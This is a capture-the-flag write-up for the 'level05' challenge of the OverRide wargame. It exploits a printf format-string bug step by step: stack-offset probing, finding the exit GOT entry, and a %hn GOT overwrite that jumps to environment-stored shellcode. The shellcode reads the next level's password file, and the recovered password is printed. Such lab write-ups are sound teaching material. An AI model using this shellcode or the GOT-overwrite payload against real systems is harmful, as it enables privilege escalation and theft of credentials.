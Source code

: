# level05

This program converts the input buffer read from stdin to lowercase, and passes it directly into `printf` function as format string.

## Step 1. Find format string itself in stack
```
level05@OverRide:~$ perl -e 'print "aaaa_" . "%08x "x12 . "\n"' | ./level05
aaaa_00000064 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 00000000 ffffffff ffffd764 f7fdb000 61616161 3830255f 30252078
```
We used `%08x` pattern to find out the location of format string in stack. `61616161` is the beginning of the string. Our format string locates at 10th position.

## Step 2. Locate `exit` function in `.got` section
```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```
Our plan is to overwrite the address of `exit` function in the `.got` section.

## Step 3. GOT overwrite
```
level05@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"'`
level05@OverRide:~$ /tmp/getenv
0xffffd845
level05@OverRide:~$ perl -e 'print pack("V", 0x080497e0) . pack("V", 0x080497e2) . "%55357u%10\$hn" . "%10170u%11\$hn"' | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
Since the address of our shellcode is too big, we overwrite the target 2 bytes each time. First 2 bytes we input the data `0xd845 - 0x8(8 bytes address we've already printed) = 0xd83d(55357)`, then we overwrite the next 2 bytes `0xffff - 0xd845 = 0x27ba`.
